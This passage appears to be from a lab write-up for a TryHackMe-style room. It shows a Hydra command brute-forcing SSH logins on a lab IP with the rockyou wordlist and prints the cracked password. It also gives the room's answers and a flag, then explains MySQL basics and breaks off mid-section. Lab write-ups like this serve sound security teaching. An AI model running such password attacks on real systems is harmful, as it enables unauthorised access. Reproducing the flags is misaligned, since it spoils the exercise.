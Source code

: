 ### Exploiting SMTP

ran Hydra with username found through enumeration (administrator):
```
hydra -l administrator -t 16 -P /usr/share/wordlists/rockyou.txt -vV 10.10.215.207 ssh
[22][ssh] host: 10.10.215.207   login: administrator   password: alejandro
```

Questions:

What's the password of the user we found?
alejandro

What is the content of smtp.txt?
THM{who_knew_email_servers_were_c00l?}

## MySQL

What is MySQL?

In its simplest definition, MySQL is a relational database management system (RDBMS) based on Structured Query Language (SQL). Too many acronyms? Let's break it down:

Database:

A database is simply a persistent, organised collection of structured data

RDBMS:

A software or service used to create and manage databases based on a relational model. The word "relational" just means that the data stored in the dataset is organised as tables. Every table relates in some way to each other's "primary key" or other "key" factors.

SQL:

MYSQL is just a brand name for one of the most popular RDBMS software implementations. As we know, it uses a client-server model. But how do the client and server communicate? They use a language, specifically the Structured Query Language (SQL).

Many other products, such as PostgreSQL and Microsoft SQL server, have the word SQL in them. This similarly signifies that this is a product utilising the Structured Query Language syntax.

How does MySQL work?


MySQL, as an RDBMS, is made up of the server and utility programs that help in the administration of MySQL databases.

The server handles all database instructions like creating, editing, and accessing data. It takes and manages these requests and communicates using the MySQL protocol. This whole process can be broken down into these stages:

    MySQL creates a database for storing and manipulating data, defining the relationship of each table.
    Clients make requests by making specific statements in SQL.
    The server will respond to the client with whatever information has been requested.

What runs MySQL?
